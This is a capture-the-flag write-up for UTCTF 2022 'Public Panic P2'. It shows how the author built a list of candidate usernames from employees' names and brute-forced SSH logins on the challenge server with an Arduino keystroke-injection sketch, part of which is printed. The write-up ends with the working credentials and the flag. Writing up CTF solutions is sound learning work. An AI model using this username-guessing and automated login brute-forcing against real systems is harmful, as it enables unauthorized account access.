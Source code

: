 # UTCTF 2022 Public Panic P2(Category: Misc)
The challenge is the following,

![Figure 1](img/challenge.png) 


We are told that we should use what we found in [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic) for this challenge. 

In [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic), we found a picture of the flag on the whiteboard.

![Figure 2](img/flag.png) 

If we look closely, we can also see what seems to be a default password, which is:

`defaultpw5678!` 

![Figure 3](img/defaultpw.png) 



Now our task is to get onto their system using,

`ssh xxx@misc2.utctf.live -p 8622`

Since we have the password, we will need to find an account that uses this default password.

From the previous challenge, I gathered all the following employee information of Sagishi Tech:
- Wade Coldwater (Marketing): https://twitter.com/WadeColdwater
- Debby Uselton (Marketing): https://twitter.com/DebbyUselton
- Claude Castillo (Marketing): https://twitter.com/ClaudeCastill18
- Cliff Shackleford (Marketing): https://twitter.com/CliffShacklefo1
- Sidney Jaggers (Marketing): https://twitter.com/JaggersSidney
- Misty Booker (Marketing): https://twitter.com/MistyBooker99
- Craig Wallace (Chief Information Security Officer): https://twitter.com/CraigWa09526548
- Sherman Kern (CEO): https://twitter.com/kern_sherman
- Neil Cline (Product Manager): https://twitter.com/NeilCline9
- Britt Bryant (CTO): https://twitter.com/BrittBryant18
- Robyn Swanson (Accountant): https://twitter.com/RobynSwanson96



I looked all over their Twitter accounts, but couldn't find any tweets or pictures that could contain hints to their username. I've also tried their Twitter usernames, but that did not work. Therefore, I assumed that their account usernames have to do with their names.

I went to [Active Directory User Naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/), and saw the following,

![Figure 4](img/namingconvention.png) 

So I assumed that the usernames conventions might be one of the following:

1. Complete first name plus last name
2. Initial of first name and complete last name
3. First three characters of the first name and first three of last name
4. Three random letters and three numbers

I felt that 4 could be ruled out because I couldn't find much information about the random letters and numbers using OSINT for the Sagishi Tech employees.

So I went ahead and constructed a list of the possible usernames for each of the Sagishi Tech members in [usernames.txt](./usernames.txt), which looks like the following:

```
wadecoldwater
wade.coldwater
wade_coldwater
wcoldwater
wadcol

debbyuselton
debby.uselton
debby_uselton
duselton
debuse


claudecastillo
claude.castillo
claude_castillo
ccastillo
clacas


cliffshackleford
cliff.shackleford
cliff_shackleford
cshackleford
clisha


sidneyjaggers
sidney.jaggers
sidney_jaggers
sjaggers
sidjag


mistybooker
misty.booker
misty_booker
mbooker
misboo

craigwallace
craig.wallace
craig_wallace
cwallace
crawal


shermankern
sherman.kern
sherman_kern
skern
sheker


neilcline
neil.cline
neil_cline
ncline
neicli


brittbryant
britt.bryant
britt_bryant
bbryant
bribry


robynswanson
robyn.swanson
robyn_swanson
rswanson
robswa
```

Now, we just need to `ssh xxx@misc2.utctf.live -p 8622` to test all the possible usernames. 
I didn't want to manually ssh all of these usernames, and I wasn't too familiar with tools that automates logins attempts on the CMD. Luckily, I had a [Arduino BadUSB Keystroke Injector I made some time ago](https://dev.to/lambdamamba/a-badusb-that-is-pretty-useful-making-a-keystroke-injector-in-arduino-that-can-crack-passwords-using-brute-force-3e77) next to me, so I decided to use that.
 
I wrote an Arduino program [brute_ssh.ino](./brute_ssh/brute_ssh.ino), which injects Keystrokes into the CMD after turning on the switch. There will be a 5 second delay between each password attempt, and will try the passwords
 `defaultpw5678!`, `defaultpw5678`, and `5678!`. Also, there will be a 2 seconds delay between each username attempt. It will try all 3 passwords for each username in [usernames.txt](./usernames.txt).
A section of [brute_ssh.ino](./brute_ssh/brute_ssh.ino) looks like the following,

```
#include "Keyboard.h"

int switchPin = 9;
int switchstate = 0;

void setup() {
  Keyboard.begin();
  pinMode(switchPin, INPUT);
}

void loop() {
  switchstate = digitalRead(switchPin);
  //Start inputting into the CMD after turning the switch on
  if (switchstate == HIGH){
    Keyboard.println("ssh wadecoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wade.coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wade_coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wcoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wadcol@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);
    ...
```

The following shows the sped up demo of the [Brute Force keystroke injector](https://github.com/LambdaMamba/KeystrokeInjection):

![arduinodemo.gif](arduinodemo.gif)

The [full video is on my Youtube](https://youtu.be/C51PT2RJHn4).


I successfully logged into the server using the following credentials:

- Username: `cshackleford`
- Password: `defaultpw5678!`


And once I logged into the server, I did `ls`, and saw that there was a file named `flag.txt`. The contents were,

![Figure 10](img/shackle.png) 

Therefore, the flag is:

`utflag{conventions_knowledge_for_the_win}`

